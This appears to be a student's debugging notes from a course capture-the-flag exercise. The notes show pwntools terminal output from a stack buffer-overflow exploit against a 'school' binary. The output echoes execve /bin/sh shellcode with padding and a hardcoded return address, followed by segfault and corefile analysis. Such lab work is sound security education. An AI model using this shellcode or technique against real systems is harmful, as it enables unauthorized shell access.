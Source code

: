 ```
process 1491543 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$ pwd
/home/kali/Desktop/5-Week
$ whoami
[Detaching after vfork from child process 1491902]
kali
```

Hmmm, it seems like this didn't work remotely
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1338: Done
/home/kali/Desktop/5-Week/School_Pwn1.py:83: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("directions:")
[*] Switching to interactive mode

Hi, H1\xf6VH\xbf/bin//shWT_j;X\x99\x0f\x05AAAAAAAAAAAAAAAAA\xb0\xdd\xff\xff\xff\x7f
[*] Got EOF while reading in interactive
$ ls
$  zsh: suspended (signal)  python3 School_Pwn1.py

```

Okay yeah, I am getting  a segfault: (this is local)
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[+] Starting local process './school': pid 1496358
/home/kali/Desktop/5-Week/School_Pwn1.py:79: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("directions:")
[*] Switching to interactive mode

Hi, H1\xf6VH\xbf/bin//shWT_j;X\x99\x0f\x05AAAAAAAAAAAAAAAAA\xb0\xdd\xff\xff\xff\x7f
[*] Got EOF while reading in interactive
$ ls
[*] Process './school' stopped with exit code -11 (SIGSEGV) (pid 1496358)
[*] Got EOF while sending in interactive
```

Getting a fault at my secret address:
```
└─$ python3 School_Pwn1.py
[+] Starting local process './school': pid 1496959
/home/kali/Desktop/5-Week/School_Pwn1.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("directions:")
[*] Process './school' stopped with exit code -11 (SIGSEGV) (pid 1496959)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/5-Week/core.1496959'
    Arch:      amd64-64-little
    RIP:       0x7fffffffddb0
    RSP:       0x7ffc9d5881a0
    Exe:       '/home/kali/Desktop/5-Week/school' (0x400000)
    Fault:     0x7fffffffddb0
[*] rsp = 0x7ffc9d5881a0
[*] rip offset = -1
```
